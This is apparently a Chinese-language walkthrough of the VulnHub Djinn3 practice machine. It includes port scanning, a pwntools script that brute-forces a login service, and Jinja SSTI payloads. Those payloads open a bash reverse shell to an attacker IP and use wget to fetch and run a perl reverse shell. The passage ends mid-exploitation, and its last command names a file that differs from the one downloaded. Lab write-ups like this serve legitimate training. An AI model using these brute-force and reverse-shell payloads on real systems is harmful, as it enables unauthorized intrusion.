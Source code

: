# Djinn3

> https://download.vulnhub.com/djinn/djinn3.tar.gz

靶场IP：`192.168.32.232`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.232                                                                                         

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 10:33 EDT
Nmap scan report for 192.168.32.232
Host is up (0.00050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    lighttpd 1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
31337/tcp open  Elite?

```

浏览器访问80端口

![image-20220911223546069](../../.gitbook/assets/image-20220911223546069.png)

浏览器访问5000端口

![image-20220911223609054](../../.gitbook/assets/image-20220911223609054.png)

此端口托管一个 python Web 服务器。我们看到一张带有编号、ID、标题、状态和链接的票证列表。点击链接重定向到`http://djinn.box:5000/?id=<ID>`。

浏览不同的票证可以发现以下用户名的潜在存在：

- jack
- jason
- david
- freddy

访问31337端口，看起来需要正确账号和密码。

```
┌──(root💀kali)-[/tmp]
└─# nc 192.168.32.232 31337
username> anonymous
password> 123
authentication failed

```

brute.py

```
#!/usr/bin/env python3

from pwn import *
import sys

host, port = '192.168.32.232', 31337

# https://raw.githubusercontent.com/shipcod3/Piata-Common-Usernames-and-Passwords/master/userpass.txt

with open('userpass.txt') as f:
    data = f.readlines()

for creds in data:
    (username, password) = creds.split(' ')
    username = username.strip()
    password = password.strip()

    s = remote(host, port, level='error')
    
    s.recvuntil('username> ')
    s.sendline(username)
    s.recvuntil('password> ')
    s.sendline(password)

    msg = s.recvline()
    if b'authentication failed' not in msg:
        print("[+] Valid credentials found: {}:{}".format(username, password))
        sys.exit(0)

    s.close()
```

发现账号密码:`guest:guest`

```
┌──(root💀kali)-[/tmp]
└─# python3 brute.py
/tmp/brute.py:20: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil('username> ')
/tmp/brute.py:21: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline(username)
/tmp/brute.py:22: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.recvuntil('password> ')
/tmp/brute.py:23: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  s.sendline(password)
[+] Valid credentials found: guest:guest

```

连接成功

```
┌──(root💀kali)-[/tmp]
└─# nc 192.168.32.232 31337                                   
username> guest
password> guest

Welcome to our own ticketing system. This application is still under 
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit

```

新建票据

```
> open
Title: test
Description: test
> 
```

刷新页面

![image-20220911224751792](../../.gitbook/assets/image-20220911224751792.png)

使用ssti漏洞

```
> open
Title: {{7*7}}
Description: {{7*7}}
```

![image-20220911225054763](../../.gitbook/assets/image-20220911225054763.png)

我尝试直接注入一个反向 shell，但它不起作用

```
{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/192.168.32.130/4444 0>&1').read()}}
```

我决定生成一个反向 shell`msfvenom`并强制目标下载它并从`/tmp`. 让我们首先生成我们的反向 shell 并使其可用于 python web 服务器：

```
┌──(root💀kali)-[/tmp]
└─# cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.pl 
```

```
{{config.__class__.__init__.__globals__['os'].popen('wget http://192.168.32.130:8000/shell.pl -O /tmp/shell.pl').read()}}
```

```
{{config.__class__.__init__.__globals__['os'].popen('cd /tmp/ && perl perl.pl').read()}}
```



